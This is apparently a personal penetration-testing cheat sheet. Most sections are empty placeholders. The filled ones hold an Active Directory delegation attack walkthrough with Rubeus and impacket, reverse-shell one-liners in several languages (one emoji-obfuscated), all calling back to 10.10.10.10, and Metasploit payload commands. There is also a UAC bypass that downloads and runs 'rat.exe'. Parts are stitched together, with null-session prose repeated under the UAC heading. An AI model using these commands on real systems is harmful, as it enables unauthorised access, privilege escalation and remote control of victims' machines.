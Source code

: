 ```yaml
---
layout: page
title: "/brainbox"
permalink: /brainbox/
---
```


# INFASTRUCTURE

<details><summary> <b>API</b> </summary><blockquote>
  <details><summary>REST</summary><blockquote>
    :smile:
  </blockquote></details>
  <details><summary>SOAP</summary><blockquote>
    :smile:
  </blockquote></details>
</blockquote></details>

<br/>


<details><summary> <b>WEB</b> </summary><blockquote>
    <br/>
Start with automated tools to search for low hanging fruits 
   Burpsuite Scanner
   OWASP Zap 
   Accunetix
   Nikto 
   
   
  <details><summary>SQLi</summary><blockquote>
    :smile:
  </blockquote></details>
  <details><summary>CSRF</summary><blockquote>
    :smile:
  </blockquote></details>
    <details><summary>SSRF</summary><blockquote>
    :smile:
  </blockquote></details>
    <details><summary>IDOR</summary><blockquote>
    :smile:
  </blockquote></details>
    <details><summary>XSS</summary><blockquote>
    :smile:
  </blockquote></details>
    <details><summary>BAC</summary><blockquote>
        Broken Access Control
    :smile:
  </blockquote></details>
    <details><summary>XXE</summary><blockquote>
    :smile:
  </blockquote></details>
    <details><summary>SDE</summary><blockquote>
        secure data exposure
    :smile:
  </blockquote></details>
    <details><summary>CSRF</summary><blockquote>
    :smile:
  </blockquote></details>
    <details><summary>CSRF</summary><blockquote>
    :smile:
  </blockquote></details>
    <details><summary>CSRF</summary><blockquote>
    :smile:
  </blockquote></details>
</blockquote></details>

<br/>

<details><summary> <b>MOBILE</b> </summary><blockquote>
  <details><summary>Android</summary><blockquote>
    ### Checklist
* unzip -d and apktool -d both (different outputs at time)
    
* check for /assets and /res/raw (api keys, encryption keys)
    
* sensitive files and external storage (world readable  & writeable)
    
* executables & log files on external storage
    
* look at manifest (WRITE_EXTERNAL_STORAGE)., grep for "getExternal"
    
* check for installed package "vnd.android.package-archive" (they want to install something)
    
* hidden directories (.folder)
    
* api keys saved as bytearray to obfuscate
    
* identify crypto & understand it
    
* webSettings.setJavaScriptEnabled(True); means we might be able to XSS
    
* interesting options: "setAllowContent", "setAllowFileAccess", "setAllowFileAccessFromFileURILS", "setAllowUniversalAccessFromFileURLs", "setJavaScriptEnabled", "setPluginState", "setSavePassword"
    
* overwriting ssl errors :facepalm:
    
* xss might allow to call Runtime.getRuntime().exec() (CVE-2012-6636) <= Api17
                                                                           
* use Mitm Proxy (mitm.it has the cert)
                                                                           
    :smile:
  </blockquote></details>
  <details><summary>iOS</summary><blockquote>
    :smile:
  </blockquote></details>
</blockquote></details>

<br/>

<details><summary> <b>*NIX</b> </summary><blockquote>
  <details><summary>Exploitation</summary><blockquote>
    :smile:
  </blockquote></details>
  <details><summary>Privilege Escalation</summary><blockquote>
    :smile:
  </blockquote></details>
    <details><summary>Post Exploitation</summary><blockquote>
    :smile:
  </blockquote></details>
</blockquote></details>

<br/>

<details><summary> <b>WINDOWS</b> </summary><blockquote>
  <details><summary>Exploitation</summary><blockquote>
    :smile:
  </blockquote></details>
  <details><summary>Privilege Escalation</summary><blockquote>
    :smile:
  </blockquote></details>
    <details><summary>Post Exploitation</summary><blockquote>
    :smile:
  </blockquote></details>
</blockquote></details>

<br/>

<details><summary> <b>ACTIVE-DIRECTORY</b> </summary>
    <details><summary>Initial Access</summary>
        content 1.1
    </details>
    <details><summary>Local Privilege Escalation</summary>
        content 1.2
    </details>
  <details><summary>Post Exploitation</summary>
        content 1.2
    </details>
    <details><summary>Lateral Movement</summary>
        <details><summary>Constrained Delegation</summary>
       
          
          
          
          # First off, download two PS scripts in local machine..
            <br>
          ```bash
          wget https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/PowerView.ps1
          wget https://raw.githubusercontent.com/Kevin-Robertson/Powermad/master/Powermad.ps1
          ```
           <br>
          Then upload them to the target machine.
             <br>
          ```bash
          # Evil-WinRM
          upload PowerView.ps1
          Import-Module .\PowerView.ps1
          upload Powermad.ps1
          Import-Module .\Powermad.ps1
          ```

          1. # **Check User's Permission and Windows Versions**
               <br>
              Check if users are allowed to create a new computer object on the domain.

              ```bash
              Get-DomainObject -Identity "dc=example,dc=com" -Domain example.com

              # -------------------------
              # Result
              ms-ds-machineaccountquota: 10
              ```
               <br>

              And check if the machine is at least Windows Server 2012.

              ```bash
              Get-DomainController

              # -------------------------
              # Result
              OSVersion: Windows Server 2022 Standard
              ```
               <br>

              Additionally, check if the target computer does not have the attributes **“msds-allowedtoactionbehalfofotheridentity”** set.

              ```bash
              hostname
              Get-NetComputer <hostname> | Select-Object -Property name, msds-allowedtoactonbehalfofotheridentity

              # ------------------
              # Result
              name msds-allowedtoactonbehalfofotheridentity
              ---- ----------------------------------------
              <HOSTNAME>   {1, 0, 4, 128...}
              ```
               <br>
                
              ```bash
                .\Rubeus.exe s4u /user:HOST$ /rc4:rc4ORntml /msdsspn:CIFS/host.domain.com /impersonateuser:administrator /ptt
                
                dir \\host.domain.com\C$
              ````  
               <br>

          2. **Create a New Computer**
           <br>

              Now you can create a new computer object.

              ```bash
              New-MachineAccount -MachineAccount TEST01 -Password $(ConvertTo-SecureString '12345' -AsPlainText -Force)
              Get-DomainComputer test01

              # ----------------------
              # Result (copy the id)
              objectsid: S-1-5-21-1677581083-3380853377-188903654-5103
              ```
               <br>

              Create a new raw security descriptor.

              ```bash
              $SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;<objectid-of-a-new-computer>)"
              $SDBytes = New-Object byte[] ($SD.BinaryLength)
              $SD.GetBinaryForm($SDBytes, 0)
              Get-DomainComputer <hostname> | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes} -Verbose
              ```
               <br>

          3. **Impersonate to Get a Ticket**
           <br>

              Download Rubeus.exe in local machine.

              ```bash
              wget https://github.com/r3motecontrol/Ghostpack-CompiledBinaries/raw/master/Rubeus.exe
              ```
               <br>

              Then upload it to the target machine and generate a RC4 hash.

              ```bash
              # Evil-WinRM
              upload Rubeus.exe
              .\Rubeus.exe hash /password:12345 /user:test01 /domain:example.com

              # -------------------------
              # Result (copy the rc4 hash)
              rc4_hmac: 32ED87BDB5FDC5E9CBA88547376818D4

              ```
               <br>

              You can request a Kerberos ticket for a new machine account while impersonating an administrator.

              ```bash
              .\Rubeus.exe s4u /user:test01$ /rc4:<rc4-hash> /impersonateuser:administrator /msdsspn:cifs/<hostname>.example.com /ptt

              # --------------
              # Result (copy the output long hash at the last)
              ```
               <br>

              Generate a ticket

              ```bash
              [IO.File]::WriteAllBytes("C:\Users\<username>\Documents\ticket.kirbi", [Convert]::FromBase64String("<new-output-hash>"))
              download ticket.kirbi
              ```
               <br>

          4. **Make the Ticket Usable and Use It**
           <br>

              Download “ticket_converter.py”.

              ```bash
              wget https://raw.githubusercontent.com/zer1t0/ticket_converter/master/ticket_converter.py
              ```
               <br>

              Destroy any tickets in local machine, and convert the ticket to Linux usable, then set the new ticket’s path.

              ```bash
              kdestroy
              python3 ticket_converter.py ticket.kirbi ticket.ccache
              export KRB5CCNAME=ticket.ccache
              ```
               <br>

              We can use the ticket to get a shell.

              ```bash
              impacket-wmiexec example.com/administrator@<hostname>.example.com -no-pass -k
              ```
                
                
      
    </details>
    </details>
    <details><summary>Clearing Tracks</summary>
        content 1.2
    </details>
</details>

<br/>

<details><summary> <b>CLOUD</b> </summary><blockquote>
  <details><summary>AZURE</summary><blockquote>
    :smile:
  </blockquote></details>
  <details><summary>AWS</summary><blockquote>
    :smile:
  </blockquote></details>
</blockquote></details>

<br/>
<details><summary> <b>SHELLS</b> </summary><blockquote>
  <details><summary>Reverse Shells</summary><blockquote>
#### Python
```python
  python -c 'import pty;pty.spawn("/bin/bash")';
```
    
#### Python
```python
    python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.10.10",9001));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'
```
    
#### PHP
```php
    php -r '$sock=fsockopen("10.10.10.10",9001);system("sh <&3 >&3 2>&3");'
```
    
#### Bash
```bash
    sh -i >& /dev/tcp/10.10.10.10/9001 0>&1
 ```
    
#### PHP Emoji
```php
    php -r '$ð="1";$ð="2";$ð
="3";$ð="4";$ð="5";$ð="6";$ð="7";$ð="8";$ð="9";$ð="0";$ð¤¢=" ";$ð¤="<";$ð¤ =">";$ð±="-";$ðµ="&";$ð¤©="i";$ð¤=".";$ð¤¨="/";$ð¥°="a";$ð="b";$ð¶="i";$ð="h";$ð="c";$ð¤£="d";$ð="e";$ð="f";$ð="k";$ð="n";$ð="o";$ð="p";$ð¤="s";$ð="x";$ð = $ð. $ð¤. $ð. $ð. $ð. $ð. $ð. $ð. $ð;$ð = "10.10.10.10";$ð» = 9001;$ð = "sh". $ð¤¢. $ð±. $ð¤©. $ð¤¢. $ð¤. $ðµ. $ð
. $ð¤¢. $ð¤ . $ðµ. $ð
. $ð¤¢. $ð. $ð¤ . $ðµ. $ð
;$ð¤£ =  $ð($ð,$ð»);$ð½ = $ð. $ð. $ð. $ð;$ð½($ð);'
```
    
#### C
```c
    #include <stdio.h>
#include <sys/socket.h>
#include <sys/types.h>
#include <stdlib.h>
#include <unistd.h>
#include <netinet/in.h>
#include <arpa/inet.h>

int main(void){
    int port = 9001;
    struct sockaddr_in revsockaddr;

    int sockt = socket(AF_INET, SOCK_STREAM, 0);
    revsockaddr.sin_family = AF_INET;       
    revsockaddr.sin_port = htons(port);
    revsockaddr.sin_addr.s_addr = inet_addr("10.10.10.10");

    connect(sockt, (struct sockaddr *) &revsockaddr, 
    sizeof(revsockaddr));
    dup2(sockt, 0);
    dup2(sockt, 1);
    dup2(sockt, 2);

    char * const argv[] = {"sh", NULL};
    execve("sh", argv, NULL);

    return 0;       
}
```
    
#### Powershell
    
```powershell
    powershell -NoP -NonI -W Hidden -Exec Bypass -Command New-Object System.Net.Sockets.TCPClient("10.10.10.10",9001);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
 ```

#### NodeJS
```javascript
    (function(){
    var net = require("net"),
        cp = require("child_process"),
        sh = cp.spawn("sh", []);
    var client = new net.Socket();
    client.connect(9001, "10.10.10.10", function(){
        client.pipe(sh.stdin);
        sh.stdout.pipe(client);
        sh.stderr.pipe(client);
    });
    return /a/; // Prevents the Node.js application from crashing
})();
```
    
    
    :smile:
  </blockquote></details>
  <details><summary>Web Shells</summary><blockquote>
    :smile:
  </blockquote></details>
</blockquote></details>


<br/>
<br/>

## Metasploit 
#### ./ Multi Use Handlers

```bash 
msf6 > use exploit/multi/handler
msf6 > set PAYLOAD <Payload name>
msf6 > set LHOST <LHOST value>
msf6 > set LPORT <LPORT value>
msf6 > set ExitOnSession false
msf6 > exploit -j -z
```
<br/>
Once the required values are completed the following command will execute your handler: ‘msfconsole -L -r' 
<br/>
<br/>

#### ./ Scripting Payloads
PHP

```bash
msfvenom -p php/meterpreter_reverse_tcp lhost=<your-IP-address> lport=<your-port-address> -o shell.php
```

<br/>

## Python
#### ./ Spawn a terminal

```python
python -c 'import pty;pty.spawn("/bin/bash")';
```
<details> 
  <summary> <b>Checking for Null Sessions</b> </summary>

To verify that, we will exploit the IPC$ administrative share by trying to connect to it without valid credentials.

To connect, you have to type the following command in a Windows shell:

```bash
> NET USE \\<target IP address>\IPC$ '' /u:''
```

This tells Windows to connect to the IPC$ share by using an empty password and an empty username!

Let's try the command on our target:

<br/>
<img src="/assets/images/pts_labs/null_sessions/checking11.png" height="50%" width="50%">
<br/>


The previous command establishes a connection to the IPC$ administrative share without specifying a user; this is possible because our target host is vulnerable to null session attacks. This test only works with the IPC$. For example, it does not work with C$:
  
Example:
<br/>
<img src="/assets/images/pts_labs/null_sessions/checking12.png" height="60%" width="60%">
<br/>
You can also perform the very same checks by using smbclient:
  
  proxychains faketime -f +8h impacket-wmiexec -k -no-pass user@10.10.10.10
<br/>
<img src="/assets/images/pts_labs/null_sessions/checking13.png" height="70%" width="70%">
</details>

  
  
  
  
  
  
  
  
  
  
  
  
  
  <details> 
  <summary> <b>UAC Bypass</b> </summary>
    
    
 https://tcm-sec.com/bypassing-defender-the-easy-way-fodhelper

```ps
https://tcm-sec.com/bypassing-defender-the-easy-way-fodhelper
iwr -Uri http://10.10.10.11/rat.exe -Outfile C:\rat.exe

New-Item "HKCU:\Software\Classes\ms-settings\Shell\Open\command" -Force
New-ItemProperty -Path "HKCU:\Software\Classes\ms-settings\Shell\Open\command" -Name "DelegateExecute" -Value "" -Force
Set-ItemProperty -Path "HKCU:\Software\Classes\ms-settings\Shell\Open\command" -Name "(default)" -Value "powershell.exe -exec bypass -c C:\rat.exe" -Force

execute the binary
C:\Windows\System32\fodhelper.exe
```
    
<br/>
<img src="/assets/images/pts_labs/null_sessions/checking11.png" height="50%" width="50%">
<br/>


The previous command establishes a connection to the IPC$ administrative share without specifying a user; this is possible because our target host is vulnerable to null session attacks. This test only works with the IPC$. For example, it does not work with C$:
  
Example:
<br/>
<img src="/assets/images/pts_labs/null_sessions/checking12.png" height="60%" width="60%">
<br/>
You can also perform the very same checks by using smbclient:
    
    proxychains impacket-psexec -no-pass Administrator@10.10.10.10 -hashes :admin_hash>`
<br/>
<img src="/assets/images/pts_labs/null_sessions/checking13.png" height="70%" width="70%">
</details>
If skew is -30 minutes 
The command would be 
faketime -f -30m
